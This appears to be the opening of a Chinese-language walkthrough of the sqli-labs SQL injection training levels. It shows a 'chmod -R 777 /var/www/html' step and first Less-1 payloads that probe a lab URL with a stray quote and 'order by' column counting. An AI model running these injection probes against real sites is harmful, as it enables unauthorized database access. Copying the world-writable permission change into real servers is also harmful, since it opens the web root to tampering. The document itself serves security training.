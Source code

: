 # sqli-labs-master

- 这里我将会从头开始`通关每一个关卡`
- 我说的通关是指获取到`最终的一组数据才算`
- `第7关`是例外,所以我修改了参数(赋予了写的权限)

```bash
sudo chmod -R 777 /var/www/html
```

- 同样的道理,在`前面`我会写得`很详细`,到`后面`可能简单的部分`就会扫过`
- 我说的`简单`指的是payload差别不大,只是`闭合方式不同的`
- 需要`注意`的是`referers`,`uagents`这两张表没有数据,中间写了只是用作`演示`
- 如果写得这么详细读者都没办法`读懂`,那么建议回去`好好学习sql注入`
- 如果没有`耐心`读完这些,那么建议再找两个人`玩玩斗地主`
- 相信读完一定有所收获,看不懂的建议先`复现(多敲几遍)`,实在懂不了就`死记硬背`,绝对比高考轻松多了!

****

### Less-1(联合查询->`'`闭合)

```sql
#判断是否存在sql注入
http://8.137.60.154:8082/Less-1/?id=1'
```

![image-20241007011032838](./assets/image-20241007011032838.png)

```sql
#判断回显点
http://8.137.60.154:8082/Less-1/?id=1'order by 4 --+
```

![image-20241007011143664](./assets/image-20241007011143664.png)

```sql
#判断回显点
http://8.137.60.154:8082/Less-1/?id=1'order by 3 --+
```
